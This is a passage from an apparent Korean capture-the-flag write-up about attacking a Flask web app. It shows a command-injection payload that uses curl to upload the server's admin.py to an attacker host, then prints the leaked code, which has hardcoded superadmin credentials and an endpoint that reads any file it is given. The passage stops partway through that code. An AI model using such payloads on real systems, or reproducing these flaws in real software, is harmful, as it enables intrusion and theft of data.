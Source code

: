 `__init__.py` 파일을 통해 `views/index`, `views/admin` 경로가 존재한다는 것을 알아냈다. 추가적으로, 디버그 모드에서 실행 중임을 확인했다.        
      
이후, `ifconfig.me || curl -F a=@./../app/views/admin.py http://server_ip:port/` 요청을 통해 `admin.py` 파일까지 릭했다.     

```python
from flask import Blueprint, render_template, request, redirect, url_for, session, abort, flash
from urllib.parse import urlparse
import subprocess
import socket
import ipaddress

socket.setdefaulttimeout(2)

bp = Blueprint('admin', __name__, url_prefix='/admin')

@bp.route('/', methods = ['GET', 'POST'])
def admin():
    username = session.get('username')

    if username == "superadmin":
        return redirect(url_for('admin.dashboard'))

    if request.method == 'POST':
        username = request.form['user']
        password = request.form['pass']

        if username == "superadmin" and password == "superadmin":
            session['username'] = username
            return redirect(url_for('admin.dashboard'))
        else:
            flash("Invalid username/password")
            return redirect(url_for('admin.admin'))

    return render_template('admin.html')

@bp.route('/dashboard', methods = ['GET'])
def dashboard():
    username = session.get('username')

    if username != 'superadmin':
        return abort(404)

    return render_template('dashboard.html')

@bp.route('/system', methods = ['GET'])
def system():
    username = session.get('username')

    if username != 'superadmin':
        return abort(404)

    return render_template('system.html')

@bp.route('/logout')
def logout():
    session.pop('username', None)
    return redirect(url_for('main.index'))

@bp.route('/read', methods = ['POST'])
def read():
    filename = request.form.get('filename')
    try:
        with open(filename, 'r', encoding='UTF8') as file:
            return render_template('system.html', log_content=file.read())
```